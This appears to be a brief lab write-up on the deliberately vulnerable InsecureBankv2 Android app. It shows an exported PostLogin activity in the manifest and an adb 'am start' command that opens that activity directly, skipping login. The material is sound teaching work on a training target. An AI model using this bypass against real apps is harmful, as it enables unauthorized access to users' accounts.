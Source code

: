 - [Exported Activity Bypassing](#Exported_activity_bypassing)
  - [Manifset](#Manifset)

# Exported_activity_bypassing

## Manifset
```
<activity android:label="@string/title_activity_post_login" 
android:name="com.android.insecurebankv2.PostLogin" android:exported="true"/>

Bypassing: adb shell am start -n com.android.insecurebankv2/com.android.insecurebankv2.PostLogin
```


